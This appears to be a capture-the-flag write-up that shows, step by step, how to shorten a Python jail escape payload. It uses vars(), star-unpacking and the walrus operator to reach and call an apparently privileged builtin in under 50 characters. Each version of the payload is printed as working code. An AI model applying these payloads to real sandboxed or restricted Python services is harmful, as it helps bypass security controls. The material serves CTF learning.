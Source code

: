 # Golfing 50 Character

at __Golfing 100 Character__ we already had this payload

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

but it is still too long

<img src='img/1.png' width='700px'>

yea, we can see if the payload is still far from 50 character, but we had ultimate solution here. That issssss __asterisk__ (__*__). How can we use it? asterisk can change the use of

```
x for x in
```

things. So, lets try it

```
vars(vars()[[*vars()][6]])[[*vars(vars()[[*vars()][6]])][12]]()
```

u guys can see huh? lets see the character

<img src='img/2.png' width='600px'>

see, just using __*__, it makes the payload reducing 30 char. But its still far from the maximum payload.

i have more solution for this, lets use walrus operator __:=__.

```
vars(x:=vars()[[*vars()][6]])[[*vars(x)][12]]()
```

<img src='img/3.png' width='600px'>

it will be works! lets see

<img src='img/4.png' width='700px'>
